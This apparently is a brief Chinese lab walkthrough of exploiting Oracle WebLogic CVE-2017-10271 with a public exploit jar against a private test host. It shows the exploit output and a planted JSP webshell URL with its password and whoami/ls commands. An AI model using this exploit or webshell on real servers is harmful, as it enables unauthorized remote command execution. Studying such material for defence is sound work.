 ![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110120007.png)

<br>

工具利用：

WebLogic Wls-wsat_RCE:

[XHSecurity/Oracle-WebLogic-CVE-2017-10271: Oracle-WebLogic-CVE-2017-10271 (github.com)](https://github.com/XHSecurity/Oracle-WebLogic-CVE-2017-10271)

```
C:\Users\HUMMER\Desktop\Oracle-WebLogic-CVE-2017-10271-master\Oracle-WebLogic-CV
E-2017-10271-master>java -jar WebLogic_Wls-Wsat_RCE_Exp.jar http://192.168.2.101
:7001 test.jsp

[*] Starting exploit...
[*] Sending payloads...
[*] Payloads sent...
[*] Opening shell...
[*] pwned! Go ahead...

[+] http://192.168.2.101:7001/bea_wls_internal/test.jsp?password=secfree&command
=whoami
```



test.jsp在目标上是不存在的，我们执行命令的时候会给我们创建一个可以执行命令的脚本，也就是最下面的

```
http://192.168.2.101:7001/bea_wls_internal/test.jsp?password=secfree&command
=ls
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110121612.png)

命令执行成功！！

